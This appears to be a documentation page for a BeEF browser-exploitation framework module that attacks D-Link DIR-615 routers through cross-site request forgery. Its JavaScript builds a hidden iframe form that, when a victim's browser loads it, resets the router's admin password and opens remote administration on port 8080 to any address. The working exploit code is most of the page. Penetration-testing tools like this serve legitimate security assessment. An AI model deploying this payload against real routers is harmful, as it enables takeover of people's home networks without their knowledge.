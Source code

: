 ## Summary

* **Objective**: enable remote administration and change the admin password on a D-Link DIR-615 router
* **Authors**: antisnatchor, n0x00
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/dlink_dir_615_csrf)

## Internal Working

uses iframes with a POST form to enable remote administration on port 8080 and change the admin password on a D-Link DIR-615 router

```js

  var gateway = '<%= @base %>';
  var passwd  = '<%= @password %>';
  var timeout = 15;

  var dir615_iframe_<%= @command_id %> = beef.dom.createIframeXsrfForm(gateway + "tools_admin.php", "POST", "application/x-www-form-urlencoded",
      [{'type':'hidden', 'name':'ACTION_POST',     'value':'1'} ,
       {'type':'hidden', 'name':'apply',           'value':'Save Settings'},
       {'type':'hidden', 'name':'admin_name',      'value':'admin'},
       {'type':'hidden', 'name':'admin_password1', 'value':passwd},
       {'type':'hidden', 'name':'admin_password2', 'value':passwd},
       {'type':'hidden', 'name':'rt_enable',       'value':'on'},
       {'type':'hidden', 'name':'rt_enable_h',     'value':'1'},
       {'type':'hidden', 'name':'rt_ipaddr',       'value':'0.0.0.0'},
       {'type':'hidden', 'name':'rt_port',         'value':'8080'}
      ]);

  
```

## Feedback

